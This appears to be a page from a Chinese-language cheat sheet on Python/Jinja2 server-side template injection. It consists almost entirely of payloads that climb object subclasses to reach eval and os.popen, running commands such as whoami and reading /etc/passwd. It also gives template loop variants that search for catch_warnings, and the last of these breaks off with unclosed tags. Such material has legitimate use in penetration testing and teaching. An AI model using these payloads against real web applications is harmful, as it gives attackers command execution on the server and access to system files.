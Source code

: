 ```go
{{().__class__.__bases__[0].__subclasses__()[140].__init__.__globals__['__builtins__']['eval']("__import__('os').system('whoami')")}}



 



{{().__class__.__bases__[0].__subclasses__()[140].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('whoami').read()")}}



 



{{().__class__.__bases__[0].__subclasses__()[140].__init__.__globals__['__builtins__']['__import__']('os').popen('whoami').read()}}



 



{{().__class__.__bases__[0].__subclasses__()[140].__init__.__globals__['__builtins__']['open']('/etc/passwd').read()}}
```

又或者用如下两种方式，用模板来跑循环

```go
{% for c in ().__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('whoami').read()") }}{% endif %}{% endfor %}
{% for c in [].__class__.__base__.__subclasses__() %}



{% if c.__name__ == 'catch_warnings' %}



  {% for b in c.__init__.__globals__.values() %}



  {% if b.__class__ == {}.__class__ %}



    {% if 'eval' in b.keys() %}



      {{ b['eval']('__import__("os").popen("whoami").read()') }}



    {% endif %}


```
